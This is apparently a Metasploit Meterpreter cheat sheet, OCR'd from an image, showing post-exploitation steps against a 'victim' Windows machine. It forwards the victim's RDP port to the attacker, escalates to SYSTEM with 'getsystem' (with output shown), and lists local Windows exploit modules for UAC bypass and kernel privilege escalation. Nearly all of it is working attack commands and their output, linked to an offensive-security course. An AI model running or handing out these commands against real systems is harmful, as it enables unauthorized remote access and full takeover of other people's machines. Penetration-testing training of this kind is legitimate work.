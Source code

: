 meterpreter> portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
     -L >opt>  The local host to listen on (optional).
     -h        Help banner.
     -l >opt>  The local port to listen on.
     -p >opt>  The remote port to connect on.
     -r >opt>  The remote host to connect on.
meterpreter>

[ + ] Lets forward out the RDP Service on the Victim Machine! For fun?
https://www.offensive-security.com/metasploit-unleashed/portfwd/

meterpreter> portfwd add –l 3389 –p 3389 –r <TARGET IP>
[*] Local TCP relay created: 0.0.0.0:3389 >-> <TARGET IP>:3389
meterpreter> 

--> Then, on your attacking machine:
rdesktop 0.0.0.0


+ Privilege Escalation with Meterpreter?
https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

--> priv

meterpreter> use priv
Loading extension priv...success.
meterpreter>


--> getsystem

meterpreter> getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter>



[ + ] Local Exploits

meterpreter> background
[*] Backgrounding session 1...
msf exploit(ms10_002_aurora)> use exploit/windows/local/
...snip...
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
...snip...
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_081_track_popup_menu
...snip...
msf exploit(ms10_002_aurora)>
